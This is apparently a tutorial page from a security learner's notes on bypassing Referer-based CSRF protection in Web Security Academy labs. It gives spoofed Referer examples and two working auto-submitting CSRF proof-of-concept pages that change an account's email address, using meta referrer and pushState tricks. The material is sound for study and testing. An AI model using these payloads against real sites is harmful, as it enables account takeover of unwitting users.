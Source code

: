 
## Testing the Referer Header for CSRF Attack

1. **Remove the Referer header**: See if the application still processes the request without it. If the application process it, the site might be vulnerable.
2. **Validate which part of the Referer header is used**: Identify which part is validated by the application.

   - **Example 1**: `Referer: https://attacker.com/?vulnerable-web.net`
   - **Example 2**: `Referer: http://vulnerable-website.com.attacker-website.com/csrf-attack`

### Referer validation depends on header being present

1. **Remove the Referer Header**
2. **Add ```<meta name="referrer" content="no-referrer">``` between the ```head``` tag in you payload**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
<meta name="referrer" content="no-referrer">
</head>
  <body>
    <form action="https://0ac3007703f51dc881598ea300940055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacked&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Broken referer validation

Some web application only validate some selective portion of a referer url. In this case we can exploit this by making some change in push state function of a csrf exploit.

1. **Add the portion of referer url as a query parameter after `/` of push state function.**
2. **Add ```<meta name="referrer" content="unsafe-url">``` between the ```head``` tag in you payload**
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
<head>
   <meta name="referrer" content="unsafe-url">
</head>
  <body>
    <form action="https://0afc00a10434115f83de504c00d4008a.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a111&#64;a&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0afc00a10434115f83de504c00d4008a.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

